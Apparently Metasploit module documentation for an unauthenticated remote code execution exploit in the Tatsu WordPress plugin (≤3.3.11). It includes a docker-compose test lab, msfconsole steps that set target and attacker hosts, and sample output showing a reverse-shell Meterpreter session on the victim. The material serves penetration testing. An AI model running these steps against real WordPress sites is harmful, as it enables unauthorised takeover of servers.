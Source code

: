 ## Vulnerable Application

This module exploits unauthenticated remote code execution in Tatsu plugin for Wordpress. The vulnerable version is below 3.3.11. 
The module upload malicious zip file containing PHP payload, which gets parsed and unzipped into Wordpress upload directory. 
Then module will trigger the payload by sending request with payload directory as URI. The vulnerable plugin is available [here](https://tatsubuilder.com/wp-content/uploads/edd/2022/03/tatsu-3.3.11.zip) 


## Verification Steps


1. Install the application
1.1 Create `docker-compose.yml`
```yaml
services:

  wordpress:
    image: wordpress:6.3.2
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: ms
      WORDPRESS_DB_PASSWORD: supersecret
      WORDPRESS_DB_NAME: proof_of_concept
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: proof_of_concept
      MYSQL_USER: ms
      MYSQL_PASSWORD: supersecret
      MYSQL_ROOT_PASSWORD: supersecret
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:

```
1.2 Download [plugin](https://tatsubuilder.com/wp-content/uploads/edd/2022/03/tatsu-3.3.11.zip)
1.3 Install the plugin in Wordpress admin portal

2. `msfconsole`
3. `use multi/http/wp_tatsu_rce`
4. `set RHOST [target IP]`
5. `set RPORT [target PORT]`
6. `set LHOST [attacker's IP]`
7. `set LPORT [attacker's port]`

## Options


## Scenarios

### Version and OS

Vulnerable version is <= 3.3.11.

```
`msf6 exploit(multi/http/wp_tatsu_rce) > run
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Sending stage (40004 bytes) to 172.18.0.2
[*] Meterpreter session 2 opened (192.168.168.128:4444 -> 172.18.0.2:37718) at 2025-06-11 18:59:35 +0200
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer    : ff0d55ec29bf
OS          : Linux ff0d55ec29bf 6.12.10-76061203-generic #202412060638~1748542656~22.04~663e4dc SMP PREEMPT_DYNAMIC Thu M x86_64
Meterpreter : php/linux
meterpreter > 
```
